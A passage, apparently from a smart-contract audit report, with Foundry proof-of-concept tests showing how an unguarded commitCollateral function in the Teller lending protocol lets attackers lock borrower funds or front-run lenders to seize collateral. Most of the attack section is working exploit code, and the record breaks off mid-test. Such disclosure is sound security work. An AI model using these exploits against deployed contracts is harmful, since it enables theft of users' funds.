```solidity
    vm.stopPrank();

    // The escrow contract now holds 3000 WETH from the borrower instead of the expected 10 WETH
    address escrowAddress = collateralManager._escrows(bidId);
    CollateralEscrowV1 escrow = CollateralEscrowV1(escrowAddress);
    uint256 escrowBalance = wethMock.balanceOf(escrowAddress);
    assertEq(wethMock.balanceOf(escrowAddress), 3000);

    // The borrower loses control of 3000 WETH of assets instead of the 10 WETH set for the original bid
    // 50000 WETH - 3000 WETH = 47000 WETH
    assertEq(wethMock.balanceOf(address(borrower)), 47000);
}
```

### Attack Vector 2 - Liquidator frontruns lender to liquidate collateral for himself

This attack shows how the `commitCollateral` function can be called at any time.

If a borrower doesn't pay their loan, and it contains a valuable collateral a malicious liquidator can prevent the lender to withdraw it, and later liquidate it for himself.

By increasing the amount in the bid collateral, the lender withdraw transaction will fail, as it will try to withdraw more than there is available in the escrow contract.

The liquidator can even frontrun the lender if he tries to set it back.

After 24 hours the liquidator is able to set the value back and liquidate the valuable collateral.

Add this test to `packages/contracts/tests/TellerV2/TellerV2_Test.sol` and run `forge test -m "test_commit_collateral_liquidator_exploit"`:

```solidity
function test_commit_collateral_liquidator_exploit() public {
    // Submit bid as borrower
    uint256 bidId = submitCollateralBid();
    // Accept bid as lender
    acceptBid(bidId);

    // Wait until the bid is seizable by the lender
    vm.warp(90000);

    // Verify that it is still not liquidable
    TellerV2User liquidator = new TellerV2User(address(tellerV2), wethMock);
    vm.prank(address(liquidator));
    vm.expectRevert("Loan must be liquidateable.");
    tellerV2.liquidateLoanFull(bidId);

    // The malicious liquidator prepares a fake bid
    Collateral memory info;
    info._amount = 100; // Increase the amount so that the lender withdraw tx fails
    info._tokenId = 0;
    info._collateralAddress = address(wethMock);
    info._collateralType = CollateralType.ERC20;

    Collateral[] memory collateralInfo = new Collateral[](1);
    collateralInfo[0] = info;

    // The liquidator frontruns the lender and updates the bid collateral        
    vm.prank(address(liquidator));
    collateralManager.commitCollateral(bidId, info);

    // The lender tries to withdraw the collateral but it fails
    vm.prank(address(lender));
    vm.expectRevert("No collateral balance for asset");
```